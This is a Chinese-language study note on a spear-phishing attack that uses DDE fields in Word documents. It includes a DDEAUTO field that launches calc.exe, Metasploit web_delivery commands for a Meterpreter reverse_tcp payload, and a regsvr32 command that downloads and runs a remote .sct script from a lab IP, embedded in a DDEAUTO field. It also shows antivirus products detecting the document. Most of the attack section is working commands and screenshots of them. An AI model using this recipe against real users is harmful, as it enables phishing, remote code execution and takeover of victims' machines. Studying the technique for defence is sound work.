 # DDE

> [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1816083)

DDE (Dynamic Data Exchange) 是一种用于在Windows应用程序之间交换数据的协议

攻击者可以利用 DDE 通过自定义字段插入到Word或Excel文档中，用于执行恶意代码

---

当用户打开包含DDE字段的文档时，Office应用程序会显示两个警告：

1. **第一个警告**：告知文档包含指向其他文件的链接。
2. **第二个警告**：告知将打开远程命令提示符。

如果用户忽略警告并允许操作，恶意命令将被执行，导致系统被攻击

---

例如: 创建一个文档 `DDE.docx`, 打开后使用 `Ctrl+F9(或者选中"插入"-"文件部件"-"域", 选中第一个 = (Formula) 然后右键切换域代码来编辑代码)` 

---

## 弹计算器

以打开计算器为例, 在域代码中输入如下内容

```JavaScript
DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"
```

![image-20240606103628125](http://cdn.ayusummer233.top/DailyNotes/202406061623809.png)

保存后重新打开即可触发域代码执行

---

> 在 Office365 和 Office 2013 的 Word 上都没复现出来,都只有如下第一条警告, 然后就没有动静了
>
> ![image-20240517153248330](http://cdn.ayusummer233.top/DailyNotes/202405171532647.png)
>
> ---
>
> 后续在 Win7+Office2016 成功执行了 DDE
>
> ![image-20240606103518902](http://cdn.ayusummer233.top/DailyNotes/202406061623666.png)
>
> ![image-20240606103531060](http://cdn.ayusummer233.top/DailyNotes/202406061623998.png)
>
> ![image-20240606103541298](http://cdn.ayusummer233.top/DailyNotes/202406061623404.png)

---

## 反弹Shell

```bash
msf > use exploit/multi/script/web_delivery
msf > set target 3
msf > set payload windows/meterpreter/reverse_tcp_uuid
msf > set lhost [msf主机要监听的本地ip地址]
msf > set lport [msf主机要监听的本地端口]
msf exploit(multi/script/web_delivery) > exploit -j 
[*] Exploit running as background job 0.
```

- `target 3 -> Regsvr32`

  `regsvr32` 是 Windows 的一个命令行工具, 用于在 Windows 注册表中注册和注销 COM（Component Object Model）对象。这些对象通常是 DLL（动态链接库）或 OCX（ActiveX 控件）文件。注册这些文件允许它们被其他程序调用和使用。

- `windows/meterpreter/reverse_tcp_uuid`: 用于在目标 Windows 系统上建立一个反向连接的 Meterpreter 会话

  与 `windows/meterpreter/reverse_tcp` 类似，但它包含了 UUID（通用唯一标识符）的支持，这有助于在目标系统上运行多个实例时进行区分。这在一些复杂的攻击场景中非常有用，可以更好地管理和跟踪不同的会话。

- `exploit -j`: 启动一个漏洞利用模块并将其作为后台作业（job）运行

  `-j` 表示以作业的方式在后台运行，这意味着漏洞利用模块不会阻塞当前的控制台，允许用户在当前会话中执行其他命令或操作

![image-20240606105827774](http://cdn.ayusummer233.top/DailyNotes/202406061623460.png)

得到上线命令:

```cmd
regsvr32 /s /n /u /i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct scrobj.dll
```

- **/s**：静默模式，执行过程中不显示任何消息框

- **/n**：不用 `DllRegisterServer`，而是使用 `DllInstall` 方法

- **/u**：卸载模式，与 `/i` 参数一起使用时，会调用 `DllInstall` 方法以卸载而不是安装

- **/i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct**：指定传递给 `DllInstall` 方法的参数

  这里是一个远程 URL，指向一个 `.sct` 脚本文件，`regsvr32` 会下载并执行它

  ![image-20240606133303334](http://cdn.ayusummer233.top/DailyNotes/202406061623428.png)

  ![image-20240606133342964](http://cdn.ayusummer233.top/DailyNotes/202406061623821.png)

  具体来说是调 WScript 调 Powershell 执行编码了的命令; 解码后的命令为:

  ![image-20240606143717556](http://cdn.ayusummer233.top/DailyNotes/202406061623227.png)

  最终还是回到下载远程字符串命令并执行, 具体命令为:

  ![image-20240606144027647](http://cdn.ayusummer233.top/DailyNotes/202406061623408.png)

  具体就不往后解了, 还套了好几层, 等后续做个 Powershell 解混淆的专项研究, 收集和编写一些可用工具再看, 人力解混淆太耗时间了

- **scrobj.dll**：指定要使用的 DLL 文件，这里是 `scrobj.dll`, 全称为 "Script Object Model DLL", 是 Windows 脚本宿主（Windows Script Host，简称 WSH）的一部分, 提供了运行和管理脚本的功能

  WSH 支持多种脚本语言，如 VBScript 和 JScript，允许用户编写和执行脚本来自动化任务

---

得到的反弹代码是:

```cmd
regsvr32 /s /n /u /i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct scrobj.dll
```

写成 DDE 就是

```js
DDEAUTO c:\\windows\\system32\\cmd.exe "/k regsvr32 /s /n /u /i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct scrobj.dll"
```

![image-20240606152651583](http://cdn.ayusummer233.top/DailyNotes/202406061623511.png)

保存后重新打开:

![image-20240606152745928](http://cdn.ayusummer233.top/DailyNotes/202406061623626.png)

![image-20240606152808558](http://cdn.ayusummer233.top/DailyNotes/202406061624209.png)

![image-20240606152851391](http://cdn.ayusummer233.top/DailyNotes/202406061624930.png)

火绒可检出:

![image-20240606160105265](http://cdn.ayusummer233.top/DailyNotes/202406061624984.png)

卡巴可检出:

![image-20240606160926908](http://cdn.ayusummer233.top/DailyNotes/202406061624353.png)

![image-20240606161518095](http://cdn.ayusummer233.top/DailyNotes/202406061624285.png)

---

## 参考链接

> [下面链接的OneTab合集](https://www.one-tab.com/page/m1oUCGvRSVywUorY3lTPvA)
>
> 基本描述都一样, 都无法成功复现
>
> ----
>
> [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1816083)
>
> [钓鱼攻击：Office DDE 漏洞复现笔记 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/32103256)
>
> [干货 | Office文档钓鱼的实战和免杀技巧-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1917641)
>
> [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击_dde攻击-CSDN博客](https://blog.csdn.net/weixin_45575473/article/details/115894657)
>
> [wps和office宏钓鱼从认识到免杀 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/317116.html)
>
> [谨防钓鱼——OFFICE DDE复现-CSDN博客](https://blog.csdn.net/tempulcc/article/details/108471488)
>
> [钓鱼攻击：Office DDE 漏洞复现笔记 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/32103256)



